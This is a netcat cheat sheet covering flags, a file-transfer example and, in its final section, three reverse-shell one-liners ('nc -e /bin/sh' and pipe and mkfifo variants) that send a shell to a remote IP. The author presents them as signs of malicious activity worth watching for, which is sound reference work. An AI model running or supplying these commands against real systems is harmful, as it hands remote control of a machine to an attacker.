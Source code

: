 ```yaml
---
title: 'CheatSheet: netcat'
description: 'Arbitrary TCP and UDP connections and listens.'
meta: "Common uses and flags for netcat"
published: true
---
```

- ## CheatSheet: netcat
	---
	Netcat is a networking tool that can provide simple network connections to read or write data between remote endpoints. This tool is useful for troubleshooting networks, exploring remote resources, and creating ad-hoc communication channels.

	Unexpected use of this utility may be an indicator of malicious activity.

- ## Basic Usage
	---
	```
	// Arbitrary TCP and UDP connections and listens.
	nc [options] <hostname> <dest_port(s)> 
	```

- ## Common Flags
	---
	[-4] Forces nc to use IPv4 addresses.
	
	[-6] Forces nc to use IPv6 addresses.
	
	[-i] Interval, specifies a delay time interval betweens lines of text sent/recieved.
	
	[-k] Forces nc to stay listening for another connection after its current connection is completed.
	
	[-l] Listen for connections.
	
	[-n] Do not make and DNS/service lookups on specified addresses, hostnames, or ports.
	
	[-p] Source Port
	
	[-r] Select source/destination ports randomly instead of sequentially.
	
	[-s] Source IP Address
	
	[-u] Use UDP instead of TCP.
	
	[-w] Timeout, silently close connection if connection/stdin are idle for more than timeout seconds.

- ## File Transfers
	---
	```
	// On the file recipient.
	nc -l -p 40000 > out.file
	
	// On the file sender.
	nc -w 3 10.10.10.10 40000 < in.file
	```

- ## Reverse Shell
	---
	This activity is highly unsual for a network admin to perform. If the following commands are observed, they should be viewed with extreme caution. I recommend establishing connections with more traditional methods for day-to-day admin activity.
	```
	// Standard
	nc -e /bin/sh 10.0.0.1 40001
	
	// -e is not available, OpenBSD
	nc 10.0.0.2 40002 | /bin/bash | nc 10.0.0.2 40002
	
	// -e is not available
	rm /tmp/f; mkfifo /tmp/f; cat tmp/f | /bin/sh -i 2>&1 | nc 10.0.0.3 40003 > /tmp/f
	```
